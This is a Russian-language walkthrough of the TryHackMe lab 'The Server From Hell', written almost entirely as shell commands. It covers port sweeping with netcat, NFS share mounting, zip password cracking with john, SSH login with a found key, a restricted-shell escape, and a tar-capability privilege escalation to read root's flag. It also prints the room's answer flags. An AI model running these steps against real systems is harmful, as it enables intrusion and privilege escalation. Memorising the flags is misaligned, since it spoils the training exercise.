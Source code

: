 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [The Server From Hell](https://tryhackme.com/r/room/theserverfromhell) 

Всего 1 заданиe:
## Задание 1
Начните с порта 1337 и продолжайте нумерацию.
Удачи.

### Ответьте на вопросы ниже
флаг.txt
```commandline
nc <IP> 1337
for i in {1..100};do nc <IP> $i;echo "";done
nc <IP> 12345
nmap -sC -sV -p111,2049 <IP>
mkdir nfs  
sudo mount -t nfs <ip>: nfs           
tree nfs
zipinfo backup.zip
zip2john backup.zip > backup.hash
john backup.hash --wordlist=/usr/share/wordlists/rockyou.txt
cat flag.txt
```
```commandline
thm{h0p3_y0u_l1k3d_th3_f1r3w4ll}
```
пользователь.txt
```commandline
cat hint.txt
nmap -sV -p 2500-4500 <IP> | grep -i ssh
chmod 600 id_rsa
ssh -i id_rsa hades@<IP> -p 3333
exec '/bin/bash'
cat user.txt
```
```commandline
thm{sh3ll_3c4p3_15_v3ry_1337}
```
корень.txt
```commandline
getcap -r / 2>/dev/null
tar -cvf flag.tar /root/root.txt
tar xf flag.tar 
cat root/root.txt
```
```commandline
thm{w0w_n1c3_3sc4l4t10n}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)